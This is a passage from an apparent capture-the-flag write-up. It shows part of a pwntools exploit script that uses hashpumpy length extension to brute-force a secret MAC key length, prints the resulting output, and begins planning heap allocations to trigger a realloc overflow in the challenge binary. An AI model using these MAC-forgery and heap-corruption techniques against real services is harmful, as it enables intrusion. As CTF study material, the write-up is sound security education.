 ```.py
    sock.recvline()
    sock.sendline(extend(extra))
    sock.sendline(b'') # send blank line to end
    sock.sendline(b'n') # don't end current game

# Find secret key length
len_key = 0
with log.progress('Finding key length') as p:
    while True:
        with context.silent:
            sock = mksock()
            load(b'\0') # hashpumpy will not accept extra=b''
            line = sock.recvline()
            sock.close()
        if b'MAC error' not in line:
            break
        len_key += 1
        p.status(str(len_key))
    p.success(str(len_key))
```

For determining the key length the `extra` parameter is not relevant, but
`hashpumpy` will not work without it, so we just add a NUL-byte.  Besides, we
need to add other data later on.

Running:

```
$ python3 doit.py
[...]
[+] Finding key length: 64
```

#### Step 3

A we saw earlier we need an allocation `A` of at least $256 + 16 + 1$ bytes
followed by an allocation `B` which we want to overwrite later.  Then `A` needs
to be freed, to have enough space to trigger the `realloc` bug through
`readlines`.

We already saw how `create_game` first allocates two buffers for the
vertical/horizontal pairs of colors/numbers, then frees them later after they
have been copied into the game data.  Choosing a `HARD` instance of the game
maximizes the free space before the game data:

<img src=create_game_hard.png />
